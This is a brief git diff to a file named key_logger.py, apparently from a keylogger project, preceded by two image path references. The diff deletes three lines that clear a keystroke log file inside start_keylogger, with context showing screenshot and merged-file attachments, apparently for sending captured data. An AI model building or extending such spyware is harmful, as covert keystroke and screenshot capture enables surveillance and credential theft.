

file changes

diff --git a/key_logger.py b/key_logger.py
@@ -223,9 +223,6 @@ def start_keylogger():
         attachment_path_2= file_merge + screenshot_information,
     )
 
-    with open(file_path + extend + keys_information, "w") as f:
-                f.write(' ')
-                f.close()
 
 # Create main window
 root = tk.Tk()
